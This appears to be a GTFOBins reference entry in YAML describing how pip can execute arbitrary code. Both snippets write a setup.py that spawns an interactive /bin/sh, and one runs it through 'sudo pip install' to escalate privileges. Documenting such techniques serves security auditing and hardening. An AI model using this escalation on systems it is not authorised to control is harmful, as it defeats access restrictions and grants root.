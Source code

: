 ```yaml
---
description: More generally, this allows to execute arbitrary [Python](/gtfobins/python/) code.
functions:
  execute-interactive:
    - code: |
        TF=$(mktemp -d)
        echo 'import os; os.dup2(0, 1); os.dup2(0, 2); os.execl("/bin/sh", "sh")' > $TF/setup.py
        pip install $TF
  sudo-enabled:
    - code: |
        TF=$(mktemp -d)
        echo 'import os; os.dup2(0, 1); os.dup2(0, 2); os.execl("/bin/sh", "sh")' > $TF/setup.py
        sudo pip install $TF
---
```

